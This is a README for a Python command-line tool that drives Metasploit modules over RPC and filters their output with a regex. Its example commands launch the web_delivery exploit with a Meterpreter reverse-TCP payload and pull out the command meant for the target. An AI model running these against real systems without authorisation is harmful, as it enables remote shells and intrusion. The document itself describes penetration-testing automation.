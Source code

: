 # MSF Module Executor

This project provides a command-line interface (CLI) tool built in Python that interacts with the Metasploit Framework using the `pymetasploit3` library. The tool allows you to dynamically run any Metasploit module, set options, and filter output based on a regular expression.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
  - [Basic Usage](#basic-usage)
  - [Advanced Usage](#advanced-usage)
- [Arguments](#arguments)
- [Examples](#examples)
- [Logging and Error Handling](#logging-and-error-handling)
- [License](#license)

## Installation

### Prerequisites

1. **Python 3.6+** is required.
2. **Metasploit Framework** installed on a host.
3. **Metasploit RPC Server** running and configured to allow connections.

### Setting Up the Environment

1. Clone the repository:

    ```bash
    git clone https://github.com/your-username/msf-module-executor.git
    cd msf-module-executor
    ```

2. Install the required Python packages:

    ```bash
    pip install pymetasploit3 argparse
    ```

## Usage

### Basic Usage

To run an exploit with the tool, specify the Metasploit module and options:

```bash
python3 msf-module-executor.py <module> --option <OPTION=VALUE> [...] --rpc-server <RPC_SERVER> --rpc-port <RPC_PORT>
```

### Advanced Usage

You can also filter the output using a regular expression:

```bash
python3 msf-module-executor.py <module> --option <OPTION=VALUE> [...] --regex "<REGEX_PATTERN>" --rpc-server <RPC_SERVER> --rpc-port <RPC_PORT>
```

### Arguments

- `<module>`: The Metasploit module to use, e.g., `exploit/multi/script/web_delivery`.
- `--option <OPTION=VALUE>`: Specify options for the module in `OPTION=VALUE` format. Multiple `--option` arguments can be passed.
- `--msf-password <PASSWORD>`: The password for the Metasploit RPC server (default: `msfrpc`).
- `--rpc-server <RPC_SERVER>`: The IP address or hostname of the Metasploit RPC server (default: `127.0.0.1`).
- `--rpc-port <RPC_PORT>`: The port on which the Metasploit RPC server is listening (default: `55552`).
- `--regex <REGEX_PATTERN>`: A regex pattern to filter the output. If not provided, the default pattern captures commands for the target machine.

## Examples

### Run a Basic Exploit

```bash
python3 msf-module-executor.py exploit/multi/script/web_delivery --option LHOST=10.192.0.3 --option LPORT=4450 --option SRVHOST=0.0.0.0 --option SRVPORT=8090 --option URIPATH=/mypayload --option payload=python/meterpreter/reverse_tcp --rpc-server 10.192.0.3 --rpc-port 55552
```

### Filter Output with a Custom Regex

```bash
python3 msf-module-executor.py exploit/multi/script/web_delivery --option LHOST=10.192.0.3 --option LPORT=4450 --option SRVHOST=0.0.0.0 --option SRVPORT=8090 --option URIPATH=/mypayload --option payload=python/meterpreter/reverse_tcp --regex "Run the following command on the target machine:\n(.*)" --rpc-server 10.192.0.3 --rpc-port 55552
```

## Logging and Error Handling

- **Logging**: The script logs detailed information about each step, including connection setup, option setting, and command execution.
- **Error Handling**: The script includes error handling for common issues such as connection failures to the Metasploit RPC server.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.
